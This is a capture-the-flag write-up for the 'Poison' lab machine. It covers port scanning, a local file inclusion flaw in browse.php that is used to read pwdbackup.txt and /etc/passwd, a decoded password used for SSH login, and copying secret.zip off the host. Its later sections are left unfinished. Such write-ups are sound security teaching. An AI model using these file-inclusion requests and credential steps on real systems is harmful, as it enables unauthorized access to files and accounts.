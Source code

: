 # Poison

**Machine ip:** 10.10.10.84

## Enumeration
First thing first, start port scan:
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.84 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.84`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dc6230c3-bc5c-468e-821e-514f8e0828fd)

+ The result shows that 2 TCP ports are open:
```
Port 22: OpenSSH 7.2
Port 80: Apache httpd 2.4.29
```

+ Always start off with enumerating web server first.
+ Navigate to `http://10.10.10.84/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1c32c4dc-e26f-4728-ba3e-1518b918c928)

+ When entering **listfiles.php** into **Scriptname** textbox, **pwdbackup.txt** is interesting.
+ `http://10.10.10.84/browse.php?file=listfiles.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bb8237de-e6cc-41e0-8bef-d003d7e1ae08)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a643911b-431e-4fb0-aea8-fcce9e4e28aa)

+ Enter **pwdbackup.txt** into the textbox, and you'll see base64 encoding.
+ `http://10.10.10.84/browse.php?file=pwdbackup.txt`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/755d1b04-96a4-44ce-936f-87f6ff1d3753)

+ This means that the application is vulnerable to local file inclusion (LFI).

+ And also check whether it is vulnerable to RFI.
+ Navigate to `http://10.10.10.84/browse.php?file=phpinfo.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e35caf5f-568a-40da-9480-be78f16123f4)

+ There is no direct RFI as **allow_url_include** is off. Setting allow_url_include to off in your configuration means that your PHP code on your server will not be able to include remote files.

## 1.Method:
+ Let's crack the base64 encoding of **pwdbackup.txt**

+ **Firstly**, crack in bash script [here](https://github.com/h4md153v63n/Bash_Scripts/tree/main/base64-multiple-decoder).

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a60378d4-e4e3-4d17-bd7f-385c8af1a0d9)

+ **Second Alternative**, try this online tool: https://base64-multiple-decode.netlify.app

![image](https://github.com/h4md153v63n/Bash_Scripts/assets/5091265/27a222f4-dc74-4795-ada0-86bda6fae3b6)

+ Get the password of decoded form as `Charix!2#4%6&8(0`
+ Get the users: `http://10.10.10.84/browse.php?file=/etc/passwd`
+ Discovered users: **root**, **toor** and **charix**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/00e56373-ad34-4087-a00e-7c9efcbf5fae)

+ The user should be `charix`:`Charix!2#4%6&8(0`
+ It belongs to Charix. Login ssh into charix account using the discovered credentials.
+ `ssh charix@10.10.10.84`
+ Get the user shell and user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bd4b9cf9-8dee-4b01-b130-9f79a2776d93)

## 2.Method:  
+ Find where the log files are located.
```
http://10.10.10.84/browse.php?file=/usr/local/etc/apache24/httpd.conf
```

## Privilege Escalation:
+ Transfer **secret.zip** to your kali attack vm.
+ `scp -P 22 charix@10.10.10.84:/home/charix/secret.zip .` with previous password `Charix!2#4%6&8(0`
+ unzip with the same password `Charix!2#4%6&8(0`: `unzip secret.zip`
+ There's no useful thing!

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a4245b7b-e57c-496c-bf6b-08378b235a83)

+ 


# References & Alternatives:
+ https://vvmlist.github.io/#poison
+ 
